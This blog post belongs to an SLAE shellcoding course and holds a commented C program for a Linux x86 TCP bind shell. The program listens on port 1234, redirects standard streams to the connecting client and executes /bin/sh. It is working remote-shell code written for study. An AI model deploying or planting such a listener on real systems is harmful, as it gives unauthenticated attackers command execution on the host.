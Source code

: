 ```yaml
---
layout: post
title: Linux x86 TCP Bind Shell
tags: [slae]
---
```


I recently began working on the SLAE to get more familiar with Assembly and shellcoding. At some point I would like to do OSCE so maybe that'll be in the cards later this year. Anyways here is the first assignment for the SLAE exam which is a Linux x86 TCP bind shell written in Assembly. To get a good grasp on the steps that need to be taken it makes things easier to first create a bind shell in C and then break that code down for writing in Assembly.


_Note: I'm a C noob, so I know this code isn't the best, but it works for our purposes here. The code has lots of comments, not only to help me understand more effectively but hopefully it helps others._

```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>

int main()
{
	// Create the socket (man socket)
	// AF_INET for IPv4
	// SOCK_STREAM for TCP connection
	// 0 leaves it up to the service provider for protocol, which will be TCP
	int host_sock = socket(AF_INET, SOCK_STREAM, 0);


	// Create sockaddr_in struct (man 7 ip)
	struct sockaddr_in host_addr;

	// AF_INET for IPv4
	host_addr.sin_family = AF_INET;
	
	// Set port number to 1234, set to network byte order by htons
	host_addr.sin_port = htons(1234);

	// Listen on any interface
	host_addr.sin_addr.s_addr = INADDR_ANY;
	
	// Bind address to socket (man bind)
	bind(host_sock, (struct sockaddr *)&host_addr, sizeof(host_addr));

	// Use the created socket to listen for connections (man listen)
	listen(host_sock, 0);

	// Accept connections, (man 2 accept) use NULLs to not store connection information from peer
	int client_sock = accept(host_sock, NULL, NULL);

	// Redirect stdin to client
	dup2(client_sock, 0);
	
	// stdout
	dup2(client_sock, 1);

	// stderr
	dup2(client_sock, 2);

	// Execute /bin/sh (man execve)
	execve("/bin/sh", NULL, NULL);
```